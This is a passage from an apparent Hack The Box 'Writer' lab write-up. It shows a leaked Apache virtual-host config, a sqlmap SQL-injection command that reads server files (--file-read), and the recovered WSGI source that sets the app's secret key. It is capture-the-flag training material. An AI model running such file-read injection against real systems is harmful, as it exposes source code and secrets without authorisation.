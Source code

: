 ```console
        </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

# Virtual host configuration for dev.writer.htb subdomain
# Will enable configuration after completing backend development
# Listen 8080
#<VirtualHost 127.0.0.1:8080>
#       ServerName dev.writer.htb
#       ServerAdmin admin@writer.htb
#
        # Collect static for the writer2_project/writer_web/templates
#       Alias /static /var/www/writer2_project/static
#       <Directory /var/www/writer2_project/static>
#               Require all granted
#       </Directory>
#
#       <Directory /var/www/writer2_project/writerv2>
#               <Files wsgi.py>
#                       Require all granted
#               </Files>
#       </Directory>
#
#       WSGIDaemonProcess writer2_project python-path=/var/www/writer2_project python-home=/var/www/writer2_project/writer2env
#       WSGIProcessGroup writer2_project
#       WSGIScriptAlias / /var/www/writer2_project/writerv2/wsgi.py
#        ErrorLog ${APACHE_LOG_DIR}/error.log
#        LogLevel warn
#        CustomLog ${APACHE_LOG_DIR}/access.log combined
#
#</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

- `sqlmap -r request.txt --file-read=/var/www/writer.htb/writer/__init__.py`
  - `from writer import app as application`: Import the `__init__.py` from the app folder
  - so, the writer package is in `/var/www/writer.htb/writer/__init__.py`

```console
└─╼$ cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_var_www_writer.htb_writer.wsgi
#!/usr/bin/python
import sys
import logging
import random
import os

# Define logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/writer.htb/")

# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get("SECRET_KEY", "")
```

